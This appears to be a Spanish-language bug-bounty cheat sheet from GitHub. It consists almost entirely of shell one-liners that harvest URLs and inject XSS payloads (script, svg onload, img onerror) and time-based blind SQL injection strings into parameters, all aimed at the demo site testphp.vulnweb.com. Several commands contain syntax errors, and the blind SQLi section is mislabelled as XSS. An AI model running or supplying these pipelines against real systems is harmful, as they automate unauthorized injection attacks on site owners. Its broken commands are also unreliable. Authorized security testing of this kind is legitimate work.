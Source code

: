 #nulldev96_Metodology

*Provando todas las herramientas para encontar posible "XSS"* 

|||||||||||||||||||||||||||||||_FIND "XSS" ===(BUG BOUNTY)====_||||||||||||||||||||||||||||||

    
#****_forma rapida de busqueda con  "echo | way | anew | cat | egrep | gf | qsreplace | while | curl | grep_****

     echo "testphp.vulnweb.com" | waybackurls | anew url1.txt ; cat url1.txt | egrep -iv ".(jpg|jpeg|git|css|tif|tiff|png|ttf|wolf|wolf2|ico|pdf|svg|txt|js)" | gf xss | qsreplace '"><script>confirm(1)</script>' | anew qsrepl2.json && cat qsrepl2.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable_xss\n" || echo "$host \033[0;32mNot Vulnerable\n#";done | grep "Vulnerable_xss" | tee vuln_xss

#****_Forma mas rapido con "echo | way | gf | qsreplace | while | curl | grep |"_****
     
     echo "testphp.vulnweb.com" | waybackurls | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable_xss\n" || echo "$host \033[0;32mNot Vulnerable\n#";done | grep "Vulnerable_xss"
              
#****_forma guardar salida con "echo | way | anew | cat | egrep | kxss | sed | dalfox"_****
      
      echo "testphp.vulnweb.com" | waybackurls | anew url1.txt ; cat url1.txt | egrep -iv ".(jpg|jpeg|git|css|tif|tiff|png|ttf|wolf|wolf2|ico|pdf|svg|txt|js|html)" > filtrado_url.txt && cat filtrado_url.txt | kxss | sed 's/=.*/=/' | sed 's/URL: //' | tee filtre.txt&& cat filtre.txt | dalfox pipe

#****_forma mas rapida con "echo | way | egrep | kxss | sed | dalfox"_****
      
      echo "testphp.vulnweb.com" | waybackurls | egrep -iv ".(jpg|jpeg|git|css|tif|tiff|png|ttf|wolf|wolf2|ico|pdf|svg|txt|js|html)" |  kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe

#****_echo | way | httpx | Gxss | dalfox_**** 
     
     echo "testphp.vulnweb.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox p     

#****_Paramspider.py | qsreplace | airixss | grep_****
     
     /home/josema96/HackerOne/hunters_tools/TOOLS_funsion/tool_Search_parametro/ParamSpider/paramspider.py -d testphp.vulnweb.com -o param.txt ; cat output/param.txt | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | grep "Vulnerable To XSS "

#****_forma simple con "echo | way | dalfox"_****
     
     echo "http://testphp.vulnweb.com" | waybackurls | dalfox pipe

#****_way | urldedupe | bhedak |  airixss | egrep_****
     
     waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'

#****_echo | way | gf | uro | httpx | qsreplace | airixss | grep_****
     
     echo testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | grep "Vulnerable To XSS"

#****_echo | way | gf | uro | qsreplace | airixss | grep_****
     
     echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' 

#****_waymore.py | cat | gf | dalfox_****
     
     python3 /root/waymore/waymore.py  -i testphp.vulnweb.com -mode U && cat /root/waymore/results/testphp.vulnweb.com/waymore.txt | gf xss | Gxss | dalfox pipe

#****_echo | cariddi | qsreplace | grep | airixss | grep_****
     
     echo "http://testphp.vulnweb.com" | cariddi | qsreplace '"><svg onload=confirm(1)>' | grep "=" | airixss -payload "confirm(1)" | grep "Vulnerable To XSS "

#****_time_tool ======> #waymore | cat | anew | qsreplay | airixss | grep_****
     
     python3 /root/waymore/waymore.py  -i testphp.vulnweb.com -mode U && cat /root/waymore/results/testphp.vulnweb.com/waymore.txt |  anew | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | grep "Vulnerable To XSS "

#****_time_tool ======> #waymore | cat | gf xss | qsreplay | freq | grep_****
     
     python3 /root/waymore/waymore.py  -i testphp.vulnweb.com -mode U && cat /root/waymore/results/testphp.vulnweb.com/waymore.txt | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'

#****_time_tool ======> #katana | urldedupe | bhedak | airixss | egrep_****
     
     katana -u http://testphp.vulnweb.com -o crawlin.txt;cat crawlin.txt | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'


###################################################################################################################

  |||||||||||||||||||||||||||||||_FIND "XSS_BLING" ===(BUG BOUNTY)====_||||||||||||||||||||||||||||||

#****_echo | way | gf | qsreplace | jeecves | grep_****
     
     echo "http://testphp.vulnweb.com" | waybackurls | gf xss | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 | grep "Vulnerable To Time-Based SQLI"

#****_echo | way | jeeves | grep_****   
     
     echo "http://testphp.vulnweb.com" | waybackurls | jeeves --payload-time 5 | grep "Vulnerable To Time-Based"

#****_echo | way | gf | qsreplace | jeeves | grep_**** 
     
     echo "http://testphp.vulnweb.com" | waybackurls | gf xss | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -H "Testing: testing;OtherHeader: Value;Other2: Value" | grep "Vulnerable To Time-Based"

#****_cat | Seclists | while | echo | gau | qsreplace | jeeves_**** 
     
     cat /usr/share/wordlists/SecLists/Fuzzing/SQLi/Generic-BlindSQLi.fuzzdb.txt | while read payload;do echo http://testphp.vulnweb.com | gau | qsreplace $payload | jeeves -t 5;done
